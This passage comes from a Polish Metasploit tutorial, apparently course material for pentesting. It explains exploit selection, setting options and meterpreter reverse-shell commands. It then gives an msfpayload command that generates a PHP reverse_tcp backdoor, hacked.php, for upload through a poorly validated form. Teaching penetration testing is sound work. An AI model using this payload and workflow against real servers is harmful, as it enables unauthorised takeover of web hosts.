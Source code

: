 Exploitów szukamy za pomocą polecenia `search <nazwa exploitu|część nazwy>`

![meta2](https://user-images.githubusercontent.com/54263922/65832170-c51b2700-e2c0-11e9-9941-ed7d323fbd65.png)

Aby skorzystać z konkretnego exploitu używamy polecenia `use <pełna nazwa exploitu>`

![meta3](https://user-images.githubusercontent.com/54263922/65832176-cf3d2580-e2c0-11e9-9e47-3fbaf569e7c9.png)

Następnie musimy zobaczyć dostępne opcje w ramach exploitu, które będa wymagały odpowiedniej konfiguracji. Możemy to zrobić za pomocą polecenia `show options`.

![meta4](https://user-images.githubusercontent.com/54263922/65832204-ff84c400-e2c0-11e9-8d06-5dcc1f879071.png)

Bardzo częstymi opcjami jest ustawienie parametrów: `RHOST, RPORT, LHOST, LPORT`. Pola z literą R (`remote`) na poczatku odnoszą się do atakowanego celu (`HOST` oznacza adres IPv4 atakowanego systemu, PORT oznacza numer portu do ustawienia kanału komunikacji). Pola z literą L (`local`) do lokalnego PC z którego przeprowadzany jest atak. Pole muszą być uzupełnione jeśli w kolumnie `Required` mają wartośc `YES`. Ustawienie wartości tych pól odbywa się za pomocą polecenia `set` np. 

```bash
set RHOST <adres ip ofiary>
```

Następnie należy ustawić `payload` do wykonania po udanej eksploitacji za pomocą polecenia `set PAYLOAD <pełna nazwa payloadu>`. Aby ułatwić wybór odpowiedniego payloadu po wpisaniu polecenia `set PAYLOAD` można nacisnąc klawisz `[TAB]`, co powinno spowodować wyświetlenie listy dostępnych payloadów. 

Po przygotowaniu zadania eksploitacji systemu w poprzednich krokach, wykonujemy w końcu polecenie `exploit`. Poprawne wykonanie exploita powinno dać dostęp do celu poprzez powłokę zwrotną (ang. *reverse shell*) `meterpreter`. Podstawowe polecenia `meterpretera` to:
- `screenshot`: wykonanie screena ekranu przejętego PC
- `sysinfo`: informacje o przejetym systemie
- `shell`: uruchomienie powłoki przejętego systemu
- sessions: wyświetla informacje o aktywnych sesjach (polecenie `sessions -i <nr sesji>` pozwala na interakcję z sesją o danym id)


## 1.2 Zastosowanie Metasploit - przykład `PHP backdoor payload`

Jedną z fundamentalnych form dostarczania współczesnego oprogramowania użytkownikom są aplikacje WWW. Wiąże się to z szeregiem udogodnień w stosunku dostarczania klasycznego, natywnego oprogramowania desktopowego, ale implikuje to określone problemy w sferze cyberbezpieczeństwa. Jedną z nich jest możliwość narażenia aplikacji na umieszczenie wśród jej źródęł plików złośliwych wykorzystujących jej podatności. Pentester może użyć formularza uploadu plików, aby przesłać różne typy plików, które pozwolą mu uzyskać informacje o serwerze internetowym lub nawet powłoce. Przy braku odpowiedniej walidacji tego co wrzuca użytkownik tego typu atak jest bardzo prawdopodobny. W tej części sprawdzimy, jak z wykorzystaniem narzędzia `metasploit` można wygenerować złośliwy plik, który może zostać następnie uploadowany na atakowany serwer w celu przejęcia nad nim kontroli.

W pierwszym kroku generujemy odpowiedni plik, który zostanie wgranyt na atakowany serwer. Jego podstawowym ładunkiem jest `reverse shell`, aby powłoka atakowanego celu została udostępniona zdalnie. Możemy tego dokonać za pomocą polecenia:
```bash
msfpayload php/meterpreter/reverse_tcp LHOST=<adres ip> LPORT=<nr portu> R > hacked.php
```
W tym przypadku wygenerowano `reverse shell` dla serwera hostującego stronę w PHP. Ustawiamy adres IP i port naszego hosta oraz następnie zapisujemy plik `hacked.php`. Dodatkowo należy się upewnić czy wygenerowany plik nie zawiera dziwnych symboli (np. znak # na początku pliku przed <?php). Jeśli takie istnieją należy je usunąć. 
